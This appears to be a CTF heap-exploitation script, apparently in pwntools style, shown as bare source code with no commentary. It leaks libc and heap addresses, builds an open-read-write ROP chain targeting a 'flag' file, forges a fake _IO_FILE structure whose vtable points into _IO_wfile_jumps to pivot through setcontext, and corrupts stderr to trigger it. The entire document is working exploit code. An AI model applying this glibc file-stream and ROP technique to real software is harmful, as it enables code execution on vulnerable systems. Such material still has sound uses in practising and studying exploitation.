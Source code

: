 ```
add(1,0x430) #1
add(2,0x418) #2

free(0)
add(3,0x430) #4
show(0)
io.recvuntil("Context:\n")
libc_base = u64(io.recv(8))-0x21a0d0
suc("libc_base",libc_base)
io.recv(8)
heap_base = u64(io.recv(6).ljust(8,b'\x00')) -0x290
suc("heap_base",heap_base)

setcontext = libc_base + libc.sym["setcontext"]
read = libc_base + libc.sym["read"]
write = libc_base + libc.sym["write"]
pop_rax = libc_base + 0x0000000000045eb0#: pop rax; ret; 
pop_rdi = libc_base + 0x000000000002a3e5#: pop rdi; ret; 
pop_rsi = libc_base + 0x000000000002be51#: pop rsi; ret; 
pop_rdx_r12 = libc_base + 0x000000000011f497#: pop rdx; pop r12; ret; 
lv = libc_base + 0x00000000000562ec#: leave; ret; 
stderr = libc_base + libc.sym['stderr']
close = libc_base + libc.sym["close"]
syscall = libc_base + 0x0000000000091396#: syscall; ret; 
_IO_wfile_jumps = libc_base + 0x2160c0


flag_addr = heap_base + 0xb00 + 0x230
orw = flat(pop_rdi ,0 , close)
orw += flat(pop_rdi,flag_addr,pop_rsi,0,pop_rax,2,syscall)
orw += flat(pop_rdi,0,pop_rsi,heap_base + 0x500,pop_rdx_r12,0x30,0,read)
orw += flat(pop_rdi,1,pop_rsi,heap_base + 0x500,pop_rdx_r12,0x30,0,write)
orw += b'flag\x00\x00\x00\x00' + p64(0xdeadbeef)




fake_io_addr = heap_base + 0xb00

fake_IO_FILE  =p64(0)*6
fake_IO_FILE +=p64(1)+p64(0)
fake_IO_FILE +=p64(fake_io_addr+0xb0)#_IO_backup_base=rdx -----> setcontext + 61 
fake_IO_FILE +=p64(setcontext+0x3d)#_IO_save_end=call addr rax+0x58
fake_IO_FILE  =fake_IO_FILE.ljust(0x58,b'\x00')
fake_IO_FILE +=p64(0)  # _chain
fake_IO_FILE  =fake_IO_FILE.ljust(0x78,b'\x00')
fake_IO_FILE += p64(heap_base+0x200)  # _lock = writable address
fake_IO_FILE = fake_IO_FILE.ljust(0x90,b'\x00')
fake_IO_FILE +=p64(heap_base+0xb30) #rax1
fake_IO_FILE = fake_IO_FILE.ljust(0xB0,b'\x00')
fake_IO_FILE += p64(0)
fake_IO_FILE = fake_IO_FILE.ljust(0xC8,b'\x00')
fake_IO_FILE += p64(libc_base+0x2160c0+0x10)  # vtable=_IO_wfile_jumps+0x10
fake_IO_FILE += p64(0) *6
fake_IO_FILE += p64(fake_io_addr + 0x40) #rax2+0xe0
fake_IO_FILE += p64(0) * 7 + p64(fake_io_addr + 0x160) + p64(pop_rdi+1) #rdx + 0xa0 , 0xa8
fake_IO_FILE += orw

free(2)
payload = p64(libc_base+0x21a0d0)*2 +p64(heap_base+0x290) + p64(stderr - 0x20) 
add(6,0x418,fake_IO_FILE)
edit(0,payload)
free(6)
```